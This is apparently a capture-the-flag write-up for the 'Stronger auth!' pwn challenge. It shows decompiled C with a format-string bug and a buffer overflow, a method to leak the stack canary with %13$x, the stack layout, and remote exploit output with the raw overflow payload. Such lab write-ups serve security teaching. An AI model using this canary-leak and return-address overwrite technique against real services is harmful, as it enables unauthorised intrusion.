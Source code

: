 # Stronger auth!

Defences have been hardened, bet you can't get access now!

`nc stronger-auth.chall.uiactf.no 1337`

[⬇️ chal](./chal)

# Writeup

Opened the code in Ghidra I see the code is pretty simple. There is a `FLAG` function that is never called. I also see that I need to authenticate with a password which is seemingly random. [chal.c](./chal.c) is the source code extracted from [Dogbolt](https://dogbolt.org/?id=adc71fff-5212-41cd-b42f-bb575a2d3c85) 

```c
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  undefined8 password;
  undefined8 filler1;
  undefined4 filler2;
  undefined8 username;
  undefined8 filler3;
  undefined4 filler4;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  password = 0;
  filler1 = 0;
  filler2 = 0;
  username = 0;
  filler3 = 0;
  filler4 = 0;
  puts(
      "This system is for authorized use only. Unauthorized access will result in immediate disconne ction!"
      );
  printf("Username: ");
  fgets((char *)&username,0x14,stdin);
  putchar(10);
  fflush(stdout);
  sVar2 = strcspn((char *)&username,"\n");
  *(undefined *)((long)&username + sVar2) = 0;
  printf((char *)&username);
  printf("@coolbox\'s password: ");
  fgets((char *)&password,200,stdin);
  putchar(10);
  iVar1 = strncmp((char *)&username,"admin",5);
  if (iVar1 == 0) {
    iVar1 = memcmp(admin_password,&password,0x14);
    if (iVar1 == 0) {
      authorized = 1;
      goto LAB_00401691;
    }
  }
  printf("DISCONNECTED!");
LAB_00401691:
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The username has FMT vulnerability. The password has a buffer overflow vulnerability. But whenever I try to overflow I get a message:

```
DISCONNECTED!*** stack smashing detected ***: terminated
```

That `DISCONNECTED` shows me that I've not even able to guess the password. The second one is to stop me from overwriting the return address to a new function.. So learning how to bypass the stack smashing detection I got a script [fuzzStack.py](./fuzzStack.py) that I can use to figure out how to leak the canary value which I can then insert when I overflow the buffer so they do not see that I've tampered with the stack. 

After running the script a few times I found a website which told me the canary value often was random ending with double `0`. 

    The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in 00 and looks very random, unlike the libc and stack addresses that start with f7 and ff. If we count the number of address it's around 24 until that value, so we go one before and one after as well to make sure. [- Source](https://ir0nstone.gitbook.io/notes/types/stack/canaries)

Quickly it looks like the canary seems to be in position 13 of the stack so using `%13$x` I can leak the canary. I now made a python script to do all the heavy lifting.

It will run the binary, leak the canary, then overwrite the stack until the canary, insert the canary and overwrite until the `Return Instruction Pointer`. Then we can call any functions we cant. 

See [solve.py](./solve.py) for the full script. 

The stack seems to be from the password:

```
56 bytes - filler
8 bytes - canary
8 bytes - filler
8 bytes - RIP
```

So when I run the script this happens:

```bash
$ python3 solve.py REMOTE
Using remote
canary found: 57fde15eb7096100
sending payload: 4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141006109b75ee1fd57424242424242424294144000000000000041400000000000641140000000000037154000000000009614400000000000
password found: 6WD1a0sKS_ geT{,JiH`+
flag found?: UIACTF{No password is strong if you can leak it!}
```